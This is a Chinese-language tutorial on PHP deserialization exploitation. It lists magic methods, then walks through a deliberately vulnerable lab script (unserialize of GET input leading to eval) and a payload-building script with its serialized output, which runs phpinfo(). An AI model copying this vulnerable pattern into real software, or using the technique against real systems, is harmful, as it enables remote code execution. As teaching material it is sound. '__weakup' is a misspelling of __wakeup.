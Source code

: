 一些函数介绍：

1.__construct():创建对象时调用（相当于c++的构造函数）

2.__destruct():销毁对象的时候调用。（相当于c++的析构函数）

3.__sleep():serialize()执行序列化时调用。

4.__weakup():unserialize()函数执行反序列化时调用。

5.__toString():操作字符串时调用。

6.__get() :当从不可访问的属性读取数据

7.__call(): 在对象上下文中调用不可访问的方法时触发



2.下面以__destruct()作为例子讲解一下利用流程，其原理都是自动触发魔法函数，篡改属性内容达到攻击目的。

__destruct()函数类似于C++中的析构函数，当对象销毁时调用

下面我们来看一个可利用代码文件

```javascript
<?php

class test{
    private $test;
    public $test1="i am hacker";
// 创建一个对象时执行，
// 反序列化只是将已经序列化好的数据还原，并不是重新执行了一遍函数，所以不存在创建对象，所以无法执行construct()魔法函数
    function __construct(){
        $this->test=new L();
    }

// 当对象销毁时执行该函数
    function __destruct(){
        // 将此处的$this->test对象篡改Evil类的对象
        // 如:$this->test=new Evil;
        // 此时在执行该函数时,就变成了Evil的对象执行action()函数
        $this->test->action();
    }
}

class L{
    function action(){
        echo "welcome to hack";
    }
}

// 该方法有一个可以利用的函数，eval()。
// eval()函数将字符串解析成php代码来执行
class Evil{
    // 前面已经执行了action()
    // 只需将$test2属性修改为可执行代码,eval()函数就将执行
    var $test2;
    function action(){
        eval($this->test2);
    }
}

unserialize($_GET['test']);

```



所以该代码的利用思路就是:

1.利用反序列化漏洞篡改__destruct()函数中的this->test=new Evil;使他成为Evil的一个对象

 2.篡改$test2=恶意代码，让eval()函数执行

通过脚本构造payload:

```javascript
<?php

class test{
    private $test;

    function __construct(){
        $this->test=new Evil;
    }
}

class Evil{
    var $test2="phpinfo();";
}

$data=new test;
$data=serialize($data);
echo "$data";
```

脚本在浏览器上输出：

```javascript
O:4:"test":1:{s:10:"testtest";O:4:"Evil":1:{s:5:"test2";s:10:"phpinfo();";}}
```



需要注意的是：提交payload时需要将"testtest"私有属性改为”%00test%00test"

具体原因请见序列化的三种权限

将得到的序列化代码提交，成功利用漏洞

![](images/5C7D1D975816476ABD32C3236D3F9832clipboard.png)

